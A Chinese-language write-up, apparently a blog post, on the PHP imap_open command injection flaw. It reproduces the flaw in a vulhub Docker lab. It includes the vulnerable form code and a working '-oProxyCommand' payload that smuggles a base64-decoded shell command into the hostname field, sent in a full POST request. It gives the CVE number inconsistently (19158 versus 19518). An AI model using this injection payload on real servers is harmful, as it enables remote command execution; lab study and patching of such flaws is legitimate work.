



## 漏洞信息

### 0x01漏洞介绍

CVE-2018-19158是PHP imap 远程命令执行漏洞

php imap扩展用于在PHP中执行邮件收发操作。**PHP IMAP 扩展** 允许 PHP 脚本通过 **IMAP（Internet Message Access Protocol）、POP3（Post Office Protocol 3）或 NNTP（Network News Transfer Protocol）** 协议与邮件服务器交互。

举个例子

连接邮箱到服务器

```php
$host = '{imap.example.com:993/imap/ssl}INBOX'; // IMAP 服务器地址
$user = 'user@example.com'; // 邮箱账号
$pass = 'password'; // 邮箱密码

// 连接到邮箱
$imap = imap_open($host, $user, $pass);
if (!$imap) {
    die('连接失败: ' . imap_last_error());
}

// 获取邮箱中的邮件数量
$total_emails = imap_num_msg($imap);
echo "共有 {$total_emails} 封邮件";

```

我们介绍一下imap_open函数

```php
imap_open(
    string $mailbox,
    string $user,
    string $password,
    int $flags = 0,
    int $retries = 0,
    array $options = []
): IMAP\Connection|false
```

介绍一下参数mailbox



### 0x02漏洞成因

其`imap_open`函数会调用rsh来连接远程shell，而debian/ubuntu中默认使用ssh来代替rsh的功能（也就是说，在debian系列系统中，执行rsh命令实际执行的是ssh命令）。因为ssh命令中可以通过设置`-oProxyCommand=`来调用第三方命令，通过注入这个参数，最终将导致命令执行漏洞。

## 环境搭建

vulhub靶场有这个CVE的docker环境，直接启动容器就行了

```
/opt/vulhub/php/CVE-2018-19518# docker-compose up -d
```

## 漏洞复现

访问8080端口可以看到



有传入服务器地址的表单，既然是命令执行漏洞并且知道注入点在哪，我们先看源码index.php

```php
<?php
if(!empty($_POST)) {
    $imap = @imap_open('{'.$_POST['hostname'].':993/imap/ssl}INBOX', $_POST['username'], $_POST['password']);
}
?>
```

可以看到这里会直接拼接我们传入的字符串，之前就了解了这个漏洞点在imap_open函数的mailbox参数，那我们构造恶意代码，先抓包处理

因为这里前面有花括号，所以我们只需要传入后花括号去闭合就行了，我们构造命令

```php
BASE64 编码 + URL编码 echo '1234567890'>/tmp/test0001得到 
ZWNobyAnMTIzNDU2Nzg5MCc%2bL3RtcC90ZXN0MDAwMQo%3d

传参hostname = x+-oProxyCommand%3decho%09 + 编码后的命令 + |base64%09-d|sh}
```

最后的请求包

```
POST / HTTP/1.1
Host: 38.55.99.239:8080
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/137.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://38.55.99.239:8080/
Cache-Control: max-age=0
Origin: http://38.55.99.239:8080
Content-Type: application/x-www-form-urlencoded
Accept-Encoding: gzip, deflate
Upgrade-Insecure-Requests: 1
Accept-Language: zh-CN,zh;q=0.9
Content-Length: 32

hostname=x+-oProxyCommand%3decho%09ZWNobyAnMTIzNDU2Nzg5MCc%2bL3RtcC90ZXN0MDAwMQo%3d|base64%09-d|sh}&username=111&password=222
```

然后我们进入容器

```
docker-compose exec web bash
```

然后在tmp目录下找到刚刚的文件



可以看到成功写入了，那就没毛病，复现完成，退出docker环境

## 漏洞修复

- 第一个肯定就是检查用户传入的参数的值了
- 在 mailbox 参数中使用某些标志，其中 /norsh 标志可以用来禁用IMAP预身份认证模式。
